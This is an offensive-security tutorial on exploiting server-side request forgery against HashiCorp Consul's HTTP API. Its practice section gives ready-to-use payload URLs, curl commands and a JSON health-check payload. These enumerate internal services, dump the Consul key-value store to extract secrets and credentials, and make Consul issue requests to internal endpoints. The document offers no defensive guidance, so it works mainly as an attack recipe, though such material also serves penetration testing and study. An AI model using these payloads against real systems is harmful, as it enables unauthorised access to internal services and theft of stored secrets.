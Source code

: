 ```yaml
---
title: Exploiting SSRF in HashiCorp Consul APIs
description: Harness SSRF vulnerabilities to exploit HashiCorp Consul for internal
  service interaction
keywords:
- HashiCorp Consul
- SSRF
- service discovery
- HTTP API
- vulnerability exploitation
- internal services
---
```


# HashiCorp Consul

## Context

HashiCorp Consul is a service mesh solution that enables service discovery, configuration, and segmentation in distributed systems. This article demonstrates how an adversary can exploit Server-Side Request Forgery (SSRF) vulnerabilities targeting Consul's HTTP APIs to interact with internal services and access sensitive information. A solid understanding of HTTP protocol mechanics, API endpoint enumeration, basic SSRF exploitation techniques, and service discovery concepts is assumed.

## Theory

### Consul HTTP API Exposure and Attack Surface

Consul provides a robust API used by applications to query and register services. This API is exposed through HTTP, often accessible from internal network segments. By default, some Consul deployments may lack authentication, widening the attack surface for potential exploits. Through a successful SSRF attack, a malicious actor can relay their requests to these exposed Consul APIs, circumventing internal network security measures like segmentation.

### Health Check and Redirect SSRF in Consul

Consul's API includes health check functionality, which can be manipulated to perform HTTP requests to arbitrary internal URLs. By crafting SSRF payloads to target health check or redirect endpoints, an attacker can effectively interact with various internal services, often bypassing traditional security constraints and accessing otherwise restricted endpoints.

### Internal API Enumeration and Data Exposure

The Consul API exposes critical data, such as service listings, node metadata, and key-value store contents. Utilizing SSRF, attackers can target these endpoints to leak sensitive data, including service topology, credentials, or secret configurations. This allows the adversary to gather valuable intelligence on the internal architecture of the target network.

## Practice

### Enumerate Consul Services via SSRF

To enumerate services registered in Consul, an attacker can exploit SSRF to target the service enumeration endpoint.

- **Payload**:  
   ```http
   http://127.0.0.1:8500/v1/catalog/services
   ```
   This is the SSRF payload that forms the target URL of the internal Consul API.

- **Command Line**:  
   ```bash
   curl -X GET 'http://vulnerable-app/ssrf?url=http://127.0.0.1:8500/v1/catalog/services'
   ```
   This command uses curl to trigger the SSRF vulnerability, relaying the crafted request to retrieve the list of internal services from Consul.

- **Outcome**:  
   The attacker retrieves a list of internal services registered in Consul, gaining insight into the network's service structure and potential targets for further exploration.

### Extract Key-Value Secrets via SSRF

An attacker can also target the key-value store within Consul to extract sensitive configuration information.

- **Payload**:  
   ```http
   http://127.0.0.1:8500/v1/kv/?recurse
   ```
   This SSRF payload targets the key-value enumeration endpoint in Consul.

- **Command Line**:  
   ```bash
   curl -X GET 'http://vulnerable-app/ssrf?url=http://127.0.0.1:8500/v1/kv/?recurse'
   ```
   By invoking this command, the attacker coerces the application to relay their request, accessing potentially sensitive data stored in Consul's key-value storage.

- **Outcome**:  
   The attacker accesses sensitive configuration details or secrets stored within the Consul key-value store, potentially exposing credentials or other sensitive information.

### Trigger Internal HTTP Requests via Consul Health Checks

Attacking Consul's health check functionality involves registering a malicious health check to direct internal HTTP requests.

- **Payload JSON**:  
   ```json
   {
       "Name": "ssrf-check",
       "HTTP": "http://internal-service.local/secret",
       "Interval": "10s"
   }
   ```
   This payload is used to register a health check with a controlled HTTP target.

- **Command Line**:  
   ```bash
   curl -X PUT --data-binary @payload.json 'http://vulnerable-app/ssrf?url=http://127.0.0.1:8500/v1/agent/check/register'
   ```
   The attacker submits the health check registration through the SSRF point to force Consul to make a request to an internal resource controlled by the attacker.

- **Outcome**:  
   By leveraging this technique, Consul is manipulated into making HTTP requests to internal endpoints specified by the attacker, potentially opening avenues for further exploitation and SSRF chaining.

## Tools

- **curl**
- **Burp Suite**